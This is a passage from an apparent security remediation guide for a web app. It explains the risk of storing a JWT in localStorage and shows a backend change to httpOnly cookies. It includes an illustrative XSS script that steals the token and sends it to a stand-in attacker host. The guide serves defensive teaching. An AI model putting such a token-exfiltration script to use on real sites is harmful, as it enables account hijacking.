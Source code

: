 **Estimated Time:** 30 minutes
**Risk Level:** Very Low (only adds protection)

---

## Issue #2: JWT Stored in localStorage (XSS Vulnerable)

### Current Vulnerability

**Problem:** JWT authentication token stored in localStorage is accessible to JavaScript.

**Current Implementation:**
```typescript
// src/services/auth.service.ts
localStorage.setItem('token', response.data.token);

// src/lib/api.ts
const token = localStorage.getItem('token');
```

**Attack Scenario - XSS (Cross-Site Scripting):**
```html
<!-- If attacker injects this script -->
<script>
  // Steal token
  const token = localStorage.getItem('token');

  // Send to attacker's server
  fetch('https://attacker.com/steal?token=' + token);

  // Attacker can now impersonate the user
</script>
```

**Real-World Impact:**
- Attacker gains full access to user account
- Can view all quotes, modify data, delete components
- If admin token stolen, complete system compromise

### Solution: httpOnly Cookies

**Why httpOnly cookies are secure:**
- JavaScript **cannot** read httpOnly cookies (immune to XSS)
- Browser automatically sends cookie with each request
- Can set additional flags: `secure`, `sameSite` for extra protection

### Implementation Steps

#### Step 1: Backend - Set JWT as httpOnly Cookie

**File:** `server/src/routes/auth.routes.ts` (or `server/src/controllers/auth.controller.ts`)

```typescript
// OLD CODE (remove this):
res.json({
  token: jwt,
  user: { id, email, name, role }
});

// NEW CODE:
res.cookie('token', jwt, {
  httpOnly: true,              // Cannot be accessed by JavaScript
  secure: process.env.NODE_ENV === 'production', // HTTPS only in production
  sameSite: 'strict',          // CSRF protection
  maxAge: 7 * 24 * 60 * 60 * 1000, // 7 days (matches JWT expiry)
  path: '/'
}).json({
```